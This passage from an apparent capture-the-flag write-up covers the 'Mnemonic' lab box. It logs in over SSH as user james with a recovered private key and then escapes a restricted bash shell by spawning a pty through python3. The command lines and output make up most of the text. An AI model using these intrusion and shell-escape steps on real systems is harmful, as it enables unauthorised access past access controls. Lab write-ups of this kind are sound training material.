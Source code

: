 Next, let's use the private key to login as `james`!

```
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# ssh -i id_rsa james@$RHOSTS -p 1337
Enter passphrase for key 'id_rsa': 
james@10.10.198.208's password: 
[...]
james@mnemonic:~$ whoami;hostname;id;ip a
james
mnemonic
uid=1001(james) gid=1001(james) groups=1001(james)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:67:45:4c:06:db brd ff:ff:ff:ff:ff:ff
    inet 10.10.198.208/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 1880sec preferred_lft 1880sec
    inet6 fe80::67:45ff:fe4c:6db/64 scope link 
       valid_lft forever preferred_lft forever
Broadcast message from root@mnemonic (somewhere) (Sat Sep 10 07:47:58 2022):   
                                                                               
     IPS/IDS SYSTEM ON !!!!                                                    
 **     *     ****  **                                                         
         * **      *  * *                                                      
*   ****                 **                                                    
 *                                                                             
    * *            *                                                           
       *                  *                                                    
         *               *                                                     
        *   *       **                                                         
* *        *            *                                                      
              ****    *                                                        
     *        ****                                                             
                                                                               
 Unauthorized access was detected.
```

We're `james`!

However, we're inside a restricted bash shell, or `rbash`.

```
james@mnemonic:~$ cd ..
-rbash: cd: restricted

james@mnemonic:~$ which $SHELL
/bin/rbash
```

To escape `rbash`, we can spawn a `pty` shell via `python3`:

```
james@mnemonic:~$ python3 -c "import pty;pty.spawn('/bin/bash')"

james@mnemonic:~$ cd ..

james@mnemonic:/home$ 
```
